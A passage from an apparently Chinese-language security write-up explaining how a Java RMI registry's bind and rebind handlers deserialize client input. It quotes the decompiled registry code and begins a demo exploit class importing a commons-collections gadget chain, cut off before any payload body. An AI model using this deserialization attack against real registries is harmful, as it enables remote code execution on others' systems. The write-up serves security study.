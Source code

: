 
### bind & rebind
当调用`bind`时, 会用`readObject`读出参数名以及远程对象, 此时则可以利用该方法来攻击注册中心.
```java
case 0:
    try {
        var11 = var2.getInputStream();
        var7 = (String)var11.readObject();
        var8 = (Remote)var11.readObject();
    } catch (IOException var94) {
        throw new UnmarshalException("error unmarshalling arguments", var94);
    } catch (ClassNotFoundException var95) {
        throw new UnmarshalException("error unmarshalling arguments", var95);
    } finally {
        var2.releaseInputStream();
    }

    var6.bind(var7, var8);
```

当调用`rebind`时, 也会用`readObject`读出参数名和远程对象, 因此和`bind`一样, 可以利用该方法来攻击注册中心.
```java
case 3:
    try {
        var11 = var2.getInputStream();
        var7 = (String)var11.readObject();
        var8 = (Remote)var11.readObject();
    } catch (IOException var85) {
        throw new UnmarshalException("error unmarshalling arguments", var85);
    } catch (ClassNotFoundException var86) {
        throw new UnmarshalException("error unmarshalling arguments", var86);
    } finally {
        var2.releaseInputStream();
    }

    var6.rebind(var7, var8);
```

`Demo`代码
```java
package org.h3rmesk1t.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.net.MalformedURLException;
import java.rmi.AlreadyBoundException;
import java.rmi.NotBoundException;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
```